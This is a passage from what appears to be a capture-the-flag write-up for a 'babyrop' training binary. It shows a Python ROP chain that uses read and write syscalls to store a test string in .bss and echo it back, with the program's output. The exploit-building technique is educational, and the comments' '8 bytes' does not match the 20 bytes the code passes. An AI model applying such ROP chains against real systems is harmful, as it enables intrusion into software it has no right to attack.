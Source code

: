 ```python
# Stage 1: read(0, .bss, 8) → write "some string" to memory
payload += p64(pop_rax) + p64(0)         # syscall: read
payload += p64(pop_rdi) + p64(0)         # stdin
payload += p64(pop_rsi) + p64(bss_addr)  # destination: .bss section
payload += p64(pop_rdx) + p64(20)        # number of bytes
payload += p64(syscall)

# Stage 2: write(1, .bss, 8) → read back the value we just wrote
payload += p64(pop_rax) + p64(1)         # syscall: write
payload += p64(pop_rdi) + p64(1)         # stdout
payload += p64(pop_rsi) + p64(bss_addr)  # source: .bss section
payload += p64(pop_rdx) + p64(20)        # number of bytes
payload += p64(syscall)
```

This demonstrates how to write a string to memory and read it back using `read` and `write` syscalls — useful for testing ROP chains.

```bash
$ ./babyrop_level5.0.py
#...

Leaving!
$ TEST STRING
TEST STRING
\x00\x00\x00\x00\xa0\xaa\xa1\xc8[*] Got EOF while reading in interactive
$  
```

As you can see, I sent `"TEST STRING"` as input, and the ROP chain successfully echoed it back — demonstrating that we were able to write data to memory and read it back using syscalls.
